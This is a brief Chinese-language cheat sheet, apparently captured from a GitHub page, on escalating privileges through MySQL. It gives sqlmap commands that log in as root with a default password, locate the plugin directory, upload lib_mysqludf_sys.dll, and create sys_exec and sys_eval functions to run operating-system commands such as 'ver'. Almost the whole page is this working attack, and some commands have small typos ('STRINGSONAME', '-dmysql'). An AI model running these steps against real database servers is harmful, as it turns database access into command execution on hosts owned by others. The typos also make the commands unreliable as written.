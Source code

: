  
## mysql提权

(1）连接mysql数据打开一个交互shell:
```sql
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shell

select @@version;

select @@plugin_dir;

select @@basedir;   //查找mysql的目录

select @@datadir 路径


```
(2）利用sqlmap上传`lib_mysqludf_sys`到MySQL插件目录:

```python
sqlmap.py -d mysql://root:root@127.0.0.1:3306/test 
--file-write=lib_mysqludf_sys.dll
--file-dest=plugin插件地址

CREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

select sys_eval('ver'); 

```